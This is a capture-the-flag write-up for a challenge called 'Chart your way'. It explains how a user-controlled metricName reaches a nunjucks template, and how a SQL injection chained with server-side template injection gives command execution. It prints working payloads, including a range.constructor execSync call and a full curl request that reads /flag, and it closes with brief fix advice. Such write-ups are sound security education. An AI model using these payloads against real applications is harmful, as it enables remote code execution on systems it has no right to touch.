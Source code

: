 # Chart your way

## Vulnerability
This is a Server Side Template Injection.

In `chart_your_way/node/app/controllers/chartController.js` a user controlled variable called `metricName` is being used to build the template.
This template is evaluated on the server side by `nunjucks`, before returning the static HTML page to the client.

## Exploitation
The service is very simple: it takes a metricName in input, contacts a Database to retrieve the associated metrics and return them to the client.

As we only have one input, we focus on where it is used, and we notice it is directly included in a template that will be rendered on the server side by nunjucks.
Nunjucks is susceptible to SSTI (Server Side Template Injection), example of payload to test if a service is vulnerable can be found on [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

In our case for the template to be rendered we must first ensure the SQL query will be executed successfully.
We will start with a SQL injection to take control of the SQL query by calling the metricName: `1 as value FROM data FORMAT JSON; -- This comment can be used to exploit the SSTI`

One way to test it is by calling the metric `1 as value FROM data FORMAT JSON; -- {{7*7}}`.
The generated templates says our metric name is `# of 1 as value FROM data FORMAT JSON; -- 49'`, yes!

Let's now use the known vulnerability of nunjuck to read the flag.
Metric name: `1 as value FROM data FORMAT JSON; --{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag')")()}}`
```bash
curl 'http://localhost:1337/?metric_name=1%20as%20value%20FROM%20data%20FORMAT%20JSON;%20--\{\{range.constructor(%22return%20global.process.mainModule.require(%27child_process%27).execSync(%27cat%20/flag%27)%22)()\}\}'
```

## Fix
User input should be escaped before being used in templates.
The web server could also hardcode a list of available metrics and return an error if the user input contains an unknown metric name.
